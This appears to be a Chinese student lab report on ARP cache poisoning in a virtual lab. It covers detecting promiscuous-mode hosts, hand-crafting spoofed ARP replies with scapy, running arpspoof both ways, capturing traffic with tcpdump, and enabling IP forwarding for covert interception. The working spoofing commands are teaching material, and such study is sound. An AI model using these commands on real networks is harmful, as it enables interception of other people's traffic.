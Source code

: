 # chap0x04实验报告

-----

## 实验内容
- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的 ARP 缓存
- [x] 使用自动化工具完成ARP投毒劫持实验
- [ ] 基于scapy编写ARP投毒劫持工具

### 实验过程
#### 实验环境搭建
* 实验主机
    * Kali-Attackter-1  
    * Kali-victim-1 
    * debian-gw
* 实验拓扑图
![](imgs/structure.png) 
* 在攻击者主机上提前安装好`scapy`
```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
``` 
#### 实验一 检测局域网中的异常终端
`异常终端`：本实验中指的是开了混杂模式的主机  ，混杂模式指是指一台机器能够接收所有经过它的数据流，而不论其目的地址是否是他。
```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
```  
![](imgs/checkpromisc.png)  
```bash
# 在攻击者主机上开启 scapy
sudo scapy
pkt = promiscping("172.16.111.102")
```
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on
```
![](imgs/promisc_on.png)
```bash
# 再次回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```
两次输出结果如下图：
![](imgs/promisc_on&off_pktping_cmp.png)  

#### 实验二 手工单步“毒化”目标主机的ARP缓存
以下代码在攻击者主机上的scapy交互模式终端下执行
```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:0f:4c:77
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:0f:4c:77
#      psrc= 172.16.111.110
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
按照课件的办法：
```bash
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
发现是不能毒化arp缓存表的，会出现以下情况：
![](imgs/ppt_arp_gwchange.png)
添加以太网头可以解决上面的问题：
```bash
arpspoofed=Ether()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
```
![](imgs/arp_gwchenge_success.png)  

回到攻击者主机,恢复arp缓存表：
```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e8:c0:ff", pdst="172.16.111.102", hwdst="08:00:27:74:ac:67")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e8:c0:ff", psrc="172.16.111.102", hwsrc="08:00:27:74:ac:67")
sendp(restorepkt2, count=100, inter=0.2)
```
在受害者主机上查看arp缓存表：
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/gw_reset.png)

#### 实验三 使用自动化工具完成ARP投毒劫持实验

投毒前，查看Kali-Victim的arp缓存表：
![](imgs/auto_arp_kalivic.png)
查看网关Debian-gw的arp缓存表：
![](imgs/auto_arp_debiangw.png)

投毒：
* 欺骗Kali-victim-1(172.16.111.102)说我Kali-Attackter-1(172.16.111.110)是Debian-gw（172.16.111.1）
```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.102 172.16.111.1
```
* 欺骗Debian-gw（172.16.111.1）说我Kali-Attackter-1(172.16.111.110)是Kali-victim-1(172.16.111.102)

```bash
root@kali:~# arpspoof -i eth0 -t 172.16.111.1 172.16.111.102
```

再次查看Kali-victim-1和debian-gw的arp缓存表：
![](imgs/auto_kalivic_gwchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Kali-victim-1的arp缓存表，将Debian-gw的Mac地址换成了Kali-Attackter的Mac地址。
![](imgs/auto_debiangw_kalivicchange.png)  
* 从上图可以看到Kali-Attackter成功毒化了Debian-gw的arp缓存表，将Kali-victim-1的Mac地址换成了Kali-Attackter的Mac地址。

尝试抓包：

```bash
root@kali:~# tcpdump -i eth0 -w /home/kali/Desktop/test.pcap
```
![](imgs/tcpdump_test.png)
在桌面上我们可以看到生成的test.pcap,用系统自带的解析软件可以打开分析。
![](imgs/test_pcap.png)
观察发出请求主机上的命令行，发现并没有成功的通信，说明这个毒化是不完整的，能够抓到包，但是不能还原原有的正常通信，只有挂起（ctrl+z）或者结束欺骗（ctrl+c）以后才能正常上网：
![](imgs/ping_failure.png)
打开Kali-Attackter的流量转发，目的是让攻击者（中间人）转发收到的包到真正的目的地址：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
![](imgs/capture_success.png)
### 实验思考
* 攻击者通过改变受害者arp缓存表里的默认网关Mac地址，实现arp投毒，所有需要经过默认网关的数据流量都会传输到攻击者主机。
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），可以让被攻击主机不能正常访问网络，且相关的访问请求都可以被攻击主机捕获，使用ctrl+z挂起欺骗进程，使用ctrl+c终止欺骗进程，此时arp缓存表很快会自动恢复，被攻击主机可以正常访问网络。
![](imgs/q1.png)
* 通过kali-arpspoof工具进行中间人arp投毒（自动化投毒工具），攻击者提前开启流量转发，可以做到隐秘的截取信息不容易被检测出来，在投毒前执行以下代码段：
```bash
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
```
### 参考资料
[Linux实现的ARP缓存老化时间原理解析](https://developer.aliyun.com/article/494130?spm=a2c6h.13813017.content3.1.707863e8MIWhJn)
[韩涛同学的实验报告](https://github.com/CUCCS/2022-ns-public-HantaoGG/tree/chap0x04/chap0x04#%E5%AE%9E%E9%AA%8C2-%E6%89%8B%E5%B7%A5%E5%8D%95%E6%AD%A5%E6%AF%92%E5%8C%96%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BAarp%E7%BC%93%E5%AD%98)
[arpspoof使用教程](https://blog.csdn.net/qq_54780911/article/details/121891827)
[arp流量转发实验](https://blog.csdn.net/fengzhantian/article/details/81346552)